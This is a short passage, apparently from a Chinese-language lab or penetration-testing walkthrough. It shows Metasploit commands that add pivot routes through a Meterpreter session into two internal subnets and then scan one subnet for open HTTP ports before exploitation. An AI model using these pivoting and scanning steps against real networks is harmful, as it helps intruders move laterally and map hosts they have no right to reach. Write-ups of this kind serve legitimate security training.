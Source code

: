 **可以看到除了自身的ip之外，还有另外两个网卡和路由存在，所以我们可以判断这个网络是存在另外两个内网的**
```ruby
# 设置路由代理
meterpreter> run autoroute -s 192.168.100.0/24
meterpreter> run  autoroute -s 192.168.85.0/24
meterpreter> run autoroute -p # 查看路由
meterpreter> background
# 对特定的网段进行端口扫描
msf6> use  auxiliary/scanner/portscan/tcp
msf6> set RHOSTS 192.168.100.2-254
msf6> set PORTS 80 #通常的http端口
msf6> set THREADS 10
msf6> run
msf6> hosts #查看存活主机
```
![](./images/第一层靶机扫描192.168.100.4网卡发现两个80端口开放.png)
![](./images/诱惑内网三个暴露的容器.png)
**确定了主机的存活和端口的开放，接下来就是进行漏洞利用了**

